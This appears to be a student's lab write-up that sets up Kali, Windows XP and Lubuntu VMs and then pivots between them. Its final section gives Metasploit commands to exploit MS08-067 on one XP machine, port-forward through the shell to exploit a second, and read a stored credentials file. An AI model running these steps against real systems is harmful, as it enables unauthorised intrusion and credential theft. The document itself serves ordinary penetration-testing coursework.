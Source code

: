 # Overview
This week our assignment was to have three VMs on a network (Alpha, Beta and Omega) and obtain access to Omega through Alpha and Omega.

# Setting up Kali VM
1. Go to https://www.kali.org/downloads/ and download the Kali Linux ISO (The download will take a while). Remember the path of where the file is located.
2. Once the download is finished, open up VMWare.
3. On the home screen, click on “Create a new virtual machine”
4. Select “Installer disc image file (ISO)” and enter the path where the Kali ISO was saved.
5. The Guest Operating System is Linux and the version is Ubuntu.
6. Name the VM something related to what you are using it for instead of just “Kali”. This will help you disguise it between different VMs. In addition, save it to a path you will remember later.
7. Specify the disk capacity and how the virtual disk is stored. For this example, we are going to use of 60 GB and split the disc into multiple files.
8. Customize any hardware if you like, but we will not need to.
9. Click “Finish” and double-click on VM’s name to launch it!

# Setting up Windows XP VM - Alpha & Beta
1. Obtain a version of Windows XP - SP1 and a registration. I have a copy of an ISO from a class I took in high school and will be using it for this tutorial.
2. Open up VMWare.
3. On the home screen, click on “Create a new virtual machine”.
4. Select “Installer disc image file (ISO)” and enter the path where the Windows ISO was saved.
5. The Guest Operating System is Windows and the version is XP.
6. Name the VM something related to what you are using it for instead of just “Windows”. This will help you disguise it between different VMs. In addition, save it to a path you will remember later.
7. Specify the disk capacity and how the virtual disk is stored. For this example, we are going to use of 40 GB and split the disc into multiple files.
8. Customize any hardware if you like, but we will not need to.
9. Click “Finish” and double-click on VM’s name to launch it!
10. Repeat for Beta

# Setting up Lubuntu - Omega
1. Go to https://lubuntu.me/downloads/ and download the Lubuntu ISO (The download will take a while). Remember the path of where the file is located.
2. Once the download is finished, open up VMWare.
3. On the home screen, click on “Create a new virtual machine”
4. Select “Installer disc image file (ISO)” and enter the path where the Lubuntu ISO was saved.
5. The Guest Operating System is Linux and the version is Ubuntu.
6. Name the VM something related to what you are using it for. Use "Omega" as the name for this assignment. This will help you disguise it between different VMs. In addition, save it to a path you will remember later.
7. Specify the disk capacity and how the virtual disk is stored. For this example, we are going to use of 32 GB and split the disc into multiple files.
8. Customize any hardware if you like, but we will not need to.
9. Click “Finish” and double-click on VM’s name to launch it!

10. Select your language of choice.
11. When you get to the home screen, press the down arrow and enter to select "Install Lubuntu".
12. Select your language prefernce and press "Continue".
13. On the next screen, check the box "Download updates while installing Lubuntu" and press "Continue".
14. For the installation type, select "Erase disk and install Lubuntu" and "Install Now".
  >Note: You will get a prompt if you want to make changes to the disk. Click "Continue" to make the changes.
15. Select your timezone and click "Continue".
16. Choose keyboard format of your choice and click "Continue".
17. Personal information:

  >a. Enter your name
  >b. Enter computer name
  >c. Enter username
  >d. Enter and confirm password
  >e. Press "Continue"
  
18. Wait for Lubuntu to finish installing!
  >Note: This will take a while.
19. Once installation is complete, reboot the VM and you will be able to login!

# Attacking
To get access to Omega, I am first attacking Alpha from my Kali VM to get access to Beta. To get into Alpha, I am using one of my favorite vulnerabilites, MS08-067. MS08-067 is a Remote Code Execution vulnerability on Windows XP machines.
1. Open Kali VM.
2. Open Metasploit by entering ```msfconsole```.
3. Type ```use exploit/windows/smb/ms08_067_netapi```.
4. Enter ```set RHOST 192.168.206.136```
5. Type ```run``` or ```exploit```.
6. Congrats! You have a shell! 
7. Enter the following command for port forwarding from your Kali VM to the Beta VM: ```portfwd add -l 445 -p 445 -r 192.168.206.140```
8. Type ```background``` in your shell.
9. Enter ```set RHOST 127.0.0.1```
10. Type ```run``` or ```exploit```.
11. Congrats! You have a shell now on Beta!
12. Type ```cat password.txt``` to read a file with credentials.
13. You now have the credentials to the Omega VM!

